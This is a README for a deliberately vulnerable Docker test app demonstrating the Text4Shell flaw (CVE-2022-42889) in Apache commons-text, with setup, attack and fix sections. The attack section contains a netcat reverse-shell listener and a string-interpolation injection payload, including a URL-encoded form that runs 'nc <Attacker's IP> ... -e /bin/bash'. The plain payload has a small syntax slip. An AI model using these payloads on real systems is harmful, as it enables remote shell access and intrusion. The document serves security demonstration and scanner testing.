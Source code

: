 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 

# Vulnerable app set-up
You can use Docker to be able to run this PoC:

1. Docker build

```
   docker build --tag=text4shell-poc .
```

2. Docker run

```
   docker run -p 80:8080 text4shell-poc
```

3. Test the vulnerable app

```
   http://localhost/
```

# Attack Set-up

1. Reverse TCP listener
```
   sudo apt install rlwrap
```
```
   sudo rlwrap nc -nlvp 443
```
2. Payload
```
   ${script:javascript:java.lang.Runtime.getRuntime().exec'<Command to Execute>’)}
```
3. Encoded payload
```
  %24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%20<Attacker's IP>%20<Attacker's port>%20-e%20%2Fbin%2Fbash%27%29%7D
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Reverse Shell generator [Generate Reverse Shell](https/www.revshells.com/)

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)



# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)
